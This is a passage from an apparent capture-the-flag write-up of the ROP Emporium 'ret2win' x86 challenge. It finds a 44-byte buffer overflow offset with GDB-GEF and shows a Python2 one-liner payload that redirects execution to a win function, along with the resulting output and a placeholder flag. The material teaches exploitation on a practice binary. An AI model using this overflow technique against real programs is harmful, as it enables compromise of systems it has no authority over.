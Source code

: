 The `main()` function to display some messages to the user before calling the `pwnme()` function, which reads input from the user and writes it into a fixed size buffer created using `memset()`.

Finally, the `ret2win()` function, which is never called, uses `system()` to read the contents of the **flag.txt** file and display them to the user. This is the **win** function that I needed to call.

### Step 3: Finding the Offset
I created a cyclic pattern 100-bytes long using the `pattern create 100` command within **GDB-GEF**. I then ran the program and input the string. The program crashed (**Segmentation Fault**) and **GDB-GEF** presented me with all of the crash information.

![GDB-GEF Segmentation Fault EIP Overwrite](/assets/images/ROP_Emporium/ret2win/finding_the_offset.png)

The `EIP` was overwritten with the value `0x6161616c`. Using the command `pattern offset 0x6161616c`, it calculated that the offset was **44**.

### Step 4: Writing the Exploit
After finding the offset, I then moved onto writing the exploit.

I wrote 3 exploits, a one-line exploit using Python2, a one-line exploit using Python3, and a fully-fledged exploit using the `pwntools` module.

#### Python2 One-Line Exploit
- Print 44 bytes
- Provide the address of ret2win() in Little-Endian

`python2 -c 'print "A"*44 + "\x2c\x86\x04\x08"'`

```
$ python2 -c 'print "A"*44 + "\x2c\x86\x04\x08"' | ./ret2win32

ret2win by ROP Emporium
x86

For my first trick, I will attempt to fit 56 bytes of user input into 32 bytes of stack buffer!
What could possibly go wrong?
You there, may I have your input please? And don't worry about null bytes, we're using read()!

> Thank you!
Well done! Here's your flag:
ROPE{a_placeholder_32byte_flag!}
```